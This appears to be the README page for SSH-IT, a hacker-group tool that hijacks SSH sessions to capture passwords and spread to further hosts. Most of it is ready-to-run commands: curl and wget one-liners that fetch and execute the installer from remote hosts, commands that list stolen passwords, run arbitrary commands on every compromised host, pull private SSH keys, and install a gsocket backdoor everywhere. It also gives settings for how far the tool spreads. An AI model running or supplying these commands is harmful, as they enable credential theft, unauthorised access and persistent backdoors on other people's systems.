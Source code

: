 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:
```shell
~/.config/prng/thc_cli -r list
```
{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}


To uninstall use:
```shell
~/.config/prng/thc_cli -r uninstall
```

### Environment variables:

Deployment can be controlled with these environment variables

|:---|:---|
|```THC_DEPTH=```|SSH-IT will spread to this depth and then stop. The default is ```THC_DEPTH=2```.|
|```THC_BASEDIR=```|Installation directory. Default is ```THC_BASEDIR="${HOME}/.config/prng"```.|
|```THC_VERBOSE=1```|For testing only: Display a warning to the user when *ssh* is being intercepted (in bold red).|
|```THC_DEBUG=1```|For testing only: Display debug information|
|```THC_DEBUG_LOG=thc.log```|For testing only: Output (most) debug informatio to ```thc.log```.|

Example
```shell
THC_DEPTH=6 THC_DEBUG=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Tips & Tricks
SSH-IT is controlled with ```thc_cli```.
```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

#### Remote Command Execution
Executing a command on _all_ hosts
```shell
~/.config/prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (```id_rsa```) from _all_ hosts:
```shell
~/.config/prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:
```shell
~/.config/prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

#### Offline Installs or when HTTPS is not available

Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):
```shell
# Without HTTPS 
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
chmod 755 ssh-it-deploy.sh && \
./ssh-it-deploy.sh
```

#### Help the team
Help us fix bugs and send us ```thc.log``` if a boo-boo happens:
```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Leonardo, Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


